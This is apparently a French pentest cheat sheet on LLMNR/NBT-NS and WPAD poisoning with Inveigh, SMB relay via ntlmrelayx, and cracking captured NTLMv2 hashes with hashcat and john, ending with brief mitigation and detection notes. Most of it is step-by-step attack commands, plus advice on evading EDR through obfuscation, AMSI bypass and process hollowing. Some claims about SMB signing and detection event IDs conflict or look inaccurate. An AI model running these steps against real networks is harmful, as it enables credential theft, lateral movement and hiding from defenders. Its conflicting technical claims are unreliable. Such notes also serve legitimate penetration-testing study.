

Le flux d'attaque pour le LLMNR/NBT-NS Poisoning repose sur l'interception de requêtes de résolution de noms non résolues sur le réseau local.



## Analyse du SMB Signing (prérequis)

Avant toute tentative de relay, il est impératif de vérifier si le **SMB Signing** est activé sur les cibles potentielles. Si `Message Signing` est `Enabled` mais non `Required`, le relay est possible.

```bash
nxc smb 192.168.1.0/24 --gen-relay-list relay_targets.txt
```

> [!danger]
> Le **SMB Signing** doit être désactivé sur la cible pour que le relay soit possible. Si `Required` est à `True`, l'attaque de relay échouera. Voir la note sur les **SMB Relay Attacks**.

## Relay Attack (SMB Relay via Responder/Inveigh)

Le relay consiste à rediriger l'authentification capturée vers une autre machine pour obtenir un accès ou exécuter du code.

### Configuration du relay
Pour relayer avec **Inveigh**, il est nécessaire de désactiver la capture SMB sur l'instance principale et d'utiliser un outil de relay comme **ntlmrelayx.py** (Impacket) en parallèle.

```bash
# Sur la machine attaquante (Linux)
sudo ntlmrelayx.py -tf relay_targets.txt -smb2support
```

Une fois le relay actif, Inveigh force le client à s'authentifier via SMB, permettant à `ntlmrelayx` de négocier la session sur la cible.

## Utilisation de WPAD pour le poisoning

Le protocole **WPAD** (Web Proxy Auto-Discovery) est souvent utilisé par les navigateurs pour configurer automatiquement les proxies. En empoisonnant cette requête, on peut forcer les machines à envoyer leurs credentials vers le serveur de l'attaquant.

### Activation dans Inveigh
```powershell
Invoke-Inveigh -WPAD Y -LLMNR Y -NBNS Y
```

Lorsqu'un utilisateur ouvre son navigateur, il tentera de télécharger le fichier `wpad.dat`. Inveigh répondra à cette requête, forçant le navigateur à s'authentifier via NTLM pour accéder au proxy fictif.

## Techniques d'évasion EDR/AV

> [!warning]
> **Inveigh** est hautement détectable par les solutions EDR modernes.

Pour limiter la détection lors de l'exécution en mémoire :

1. **Obfuscation PowerShell** : Utiliser des outils comme `Invoke-Obfuscation` pour modifier la signature du script.
2. **AMSI Bypass** : Charger un bypass AMSI avant l'importation du module.
3. **Utilisation de versions compilées** : Préférer l'utilisation de l'exécutable `Inveigh.exe` renommé ou injecté dans un processus légitime (process hollowing) pour éviter les logs de script PowerShell.

## Chargement et Exécution

### Importer le module Inveigh (PowerShell)

```powershell
Import-Module .\Inveigh.ps1
```

### Lister les options disponibles

```powershell
(Get-Command Invoke-Inveigh).Parameters
```

### Lancer Inveigh

```powershell
Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

> [!info] Explication des options
> - **-LLMNR Y** : Active l'écoute et l'empoisonnement LLMNR.
> - **-NBNS Y** : Active l'écoute et l'empoisonnement NetBIOS (NBNS).
> - **-ConsoleOutput Y** : Affiche les résultats en temps réel.
> - **-FileOutput Y** : Sauvegarde les résultats dans un fichier log.

## Capture de Hashes

Une fois que des machines du réseau envoient des requêtes LLMNR/NBT-NS, **Inveigh** capture les **NTLMv2** des utilisateurs.

### Commandes de récupération

| Commande | Description |
| :--- | :--- |
| `GET NTLMV2` | Liste les identifiants capturés en **NTLMv2** |
| `GET NTLMV2UNIQUE` | Liste les identifiants **NTLMv2** uniques |
| `GET NTLMV2USERNAMES` | Liste les noms d'utilisateur capturés |

## Utilisation de InveighZero (C#)

Si PowerShell est restreint, l'exécutable **Inveigh.exe** est utilisé.

### Exécution

```powershell
.\Inveigh.exe
```

### Options par défaut activées
- **LLMNR Spoofer**
- **NBNS Spoofer**
- **SMB Capture**
- **HTTP Capture**

## Cracking de Hashes

### Format du hash NTLMv2
`USERNAME::DOMAIN:CHALLENGE:NTLMv2_RESPONSE:OTHER_DATA`

### Cracking avec hashcat

```bash
hashcat -m 5600 -a 0 hash.txt rockyou.txt --force
```

> [!note]
> **-m 5600** : Mode **NTLMv2**.
> **-a 0** : Mode d'attaque par dictionnaire. Voir **Hashcat Usage**.

### Cracking avec john

```bash
john --format=netntlmv2 --wordlist=rockyou.txt hash.txt
```

## Arrêt du service

### PowerShell

```powershell
Stop-Inveigh
```

### Interface C#
Appuyer sur `ESC` puis entrer :

```powershell
STOP
```

## Contre-mesures (Mitigation)

### Désactivation LLMNR via GPO
Chemin : `Computer Configuration` → `Administrative Templates` → `Network` → `DNS Client` → `Turn OFF Multicast Name Resolution`

### Désactivation NBT-NS (NetBIOS)
Utilisation de **Set-ItemProperty** pour modifier les paramètres de registre :

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

## Détection

### Surveillance des logs Windows
- **ID 4697** : Installation de service suspecte.
- **ID 7045** : Nouveau service Windows ajouté.

### Analyse réseau via Wireshark
> [!warning]
> Attention aux faux positifs lors de la détection via **Wireshark**.

```wireshark
udp.port == 5355
udp.port == 137
```

## Notes importantes

- L'empoisonnement LLMNR/NBT-NS nécessite une position privilégiée sur le réseau (MITM).
- Le **SMB Signing** activé empêche la capture **NTLM** via relay.
- Ces techniques sont liées à l'énumération **Active Directory**, au protocole **NTLM Authentication Protocol** et aux **SMB Relay Attacks**.